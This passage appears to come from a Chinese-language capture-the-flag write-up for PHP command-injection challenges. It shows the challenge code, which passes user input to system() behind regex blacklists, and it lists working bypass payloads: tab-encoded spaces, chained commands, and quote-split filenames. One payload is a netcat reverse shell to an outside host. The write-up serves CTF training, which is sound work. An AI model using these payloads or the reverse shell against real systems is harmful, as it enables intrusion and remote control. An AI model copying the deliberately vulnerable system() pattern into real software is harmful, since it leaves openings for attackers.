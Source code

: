 ```php
```

没回显且过滤了/\;|cat|flag| /

空格用tab%09替代

pyload1:tac%09tf*%0a

pyload2:tac%09tf*%26%26ls

pyload3:nc 5873o627r8.yicp.fun 40277 -e /bin/sh

### we46

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:50:19
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

pyload1:?c=nl<>fla''g.php||

pyload2:?c=nl<>fla''g.php&&

### web47

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:59:23
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
```